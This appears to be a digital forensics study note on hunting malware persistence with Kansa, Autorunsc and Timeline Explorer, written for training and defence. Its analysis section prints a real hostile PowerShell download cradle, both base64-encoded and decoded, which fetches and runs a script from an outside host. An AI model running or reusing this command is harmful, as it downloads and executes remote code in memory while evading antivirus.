








# Threat Hunting & Assessment

- Upon confirming that a system is suspect or compromised, our protocol begins by examining the network utilizing scalable tools for data collection and analysis.  
- We prioritize stacking occurrence and analyzing outliers.

## Malware Persistence Analysis

- We were provided with a large collection of triage files and memory images to analyze.

- The Kansa incident response framework was utilized on the network during live response.

- Autorunsc.exe is a tool that Kansa executes which is used to identify programs that start automatically at system boot or user logon called ASEPs (Auto-Start Extensibility Point).

### Prepare for Analysis

- One of the first things in incident response is to run the Autorunsc.exe tool during live response, using the Kansa IR framework

- Kansa script executes Autorunsc.exe as:
    `autorunsc.exe /accepteula -a * -c -h -s '*' -nobanner`
    - This also saves the output as CSV file that can be analyzed in Timeline explorer

#### Autoruns Filtering
1. Using Timeline Explorer, open the autoruns.csv file

- Select File -> Open -> Select file to open

- If the columns are too wide, use Tools -> Reset Column Widths to improve the view.

2. To reduce data, we will remove all trusted startup locations from view by filtering out trusted code signers in the Signer column.  This initial step may result in some false negatives, but it will make it simpler to detect abnormalities.

> Note:  
While instances of trusted companies having their code signing certificates stolen do occur, they are uncommon.  If such a situation were to be discovered, particularly involving major vendors like Microsoft, Apple, Google or McAfee, it would likely make national news and the discoverer would likely receive significant media attention.  It is also unlikely that malware would use a trusted certificate from these major vendors.

- Click the Filter icon on the Signer column to reveal the drop-down filter.

- We want to view untrusted entries only, so we will select them specifically. 
    - First, select all publishers that are "Not Verified." In this case, there's just one labeled "(Not verified) VMware, Inc."

- Next, we will identify any publishers that are not immediately recognizable as major software vendors. While some of these companies may be familiar, we will consider Dashlane, Mozilla, and Riverbed as non-major vendors, and investigate the autostart code they are responsible for on this system.

- Before you click "Close", also select Blanks. Blanks include those entries with no publisher information and no digital signatures. Then click Close.

3. Next, we will filter the Enabled column by selecting "enabled" from the Filter icon. This will initially limit our focus to active autostart entry points, removing a significant number of empty and inactive entries from our view.

4. Ready to start analysis!

### Autoruns Output Analysis

- Review Entry Location, Image Path, Launch String

- Identify anomalies

- WMI database entries are suspicious because legitimate WMI persistence is very rare in Windows.

- Look at "Not Verified" and "Signed" executables; compare hashes on VirusTotal.com

- Review Run and RunOnce key entries
    - RunOnce is designed for application cleanup, removing locked files after a system reboot

- C:\Windows\Temp running a 1.bat file from this folder; suspicious

- WMI Launch String is a PowerShell encoded string

`powershell -W Hidden -nop -noni -ec SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBzAHEAdQBpAHIAcgBlAGwAZABpAHIAZQBjAHQAbwByAHkALgBjAG8AbQAvAGEAJwApAAoA`
 

- **-W Hidden** : sets the Window style to Normal, Minimized, Maximized, Hidden

- **-nop** : NoProfile, does not load Windows PS profile
- **-noni** : NonInteractive, no interactive prompt for the user
- **-ec** : Encoded Command in base64

- Decode with WSL Ubuntu in Windows:

        `echo <encoded-string> | base64 -d`
         IEX (New-Object System.Net.WebClient).downloadstring('http://squirreldirectory.com/a')

    - This is an example of a commonly used PowerShell technique known as a "download cradle." This single-line command downloads and executes a PowerShell script using the IEX (Invoke-Expression) cmdlet. The script is obtained from squirreldirectory site and is executed directly in memory, allowing attackers to bypass endpoint security measures and evade detection by anti-virus software.

- To verify the authenticity of suspicious entries, it's best to first check for digital signatures. 

    - Once that step is completed, you can compare the file hash provided by Autoruns against a known-good hash database or against known-bad databases like VirusTotal. 
    
    - Additionally, researching the vendor and product listed in the "Publisher" and "Description" fields can provide more information. 
    
    - Lastly, comparing the output with baselined output from a trusted, similar system can help identify any abnormalities. 